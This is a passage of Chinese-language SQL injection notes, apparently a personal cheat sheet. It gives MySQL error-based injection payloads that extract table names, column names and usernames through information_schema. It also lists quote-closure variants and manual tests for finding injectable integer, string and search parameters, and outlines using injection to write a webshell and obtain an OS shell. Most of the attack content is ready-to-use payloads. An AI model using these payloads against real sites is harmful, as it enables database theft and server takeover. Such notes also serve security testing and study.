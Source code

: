 		INSERT INTO users (id, username, password) VALUES (1,'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT distinct concat(0x7e,0x27,cast(table_name as char),0x27,0x7e) FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '','Nervo');
		
		INSERT INTO users (id, username, password) VALUES (1, 'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT distinct concat(0x7e,0x27,cast(column_name as char),0x27,0x7e) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' LIMIT 0,1)) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '', 'Nervo');
		
		INSERT INTO users (id, username, password) VALUES (1, 'Olivia' or (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT concat(0x7e,0x27,cast(users.username as char),0x27,0x7e) FROM `newdb`.users LIMIT 0,1) ) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) or '', 'Nervo');
		
	闭合变种
		' or (payload) or '
		' and (payload) and '
		' or (payload) and '
		' or (payload) and '='
		'* (payload) *'
		' or (payload) and '
		" – (payload) – "
		' and '1'='1
		' and 1=1%23
		' and 1=1-- aaaa
		' and 1=1#
	
	参考文章
		http://dev.mysql.com/
		http://websec.ca/kb/sql_injection
		from：http://www.exploit-db.com/wp-content/themes/exploit/docs/33253.pdf
	
针对不同数据库的注入技术总结
mysql
	limit 1
mssql
	top 1
oracle
access
mongodb

注入应用思路
	注入搜集信息
	注入获取数据
	注入读取文件
	注入写入文件（webshell）
	注入直接拿os-shell


常用手工注入语句
{
	
	判断注入点：
整形参数判断
    1、直接加'  2、and 1=1  3、 and 1=2
    如果1、3运行异常 2正常就存在注入
字符型判断
    1、直接加'  2、and '1'='1'  3、 and '1'='2'
搜索型： 关键字%' and 1=1 and '%'='%  
        关键字%' and 1=2 and '%'='%
    如果1、3运行异常 2正常就存在注入 
	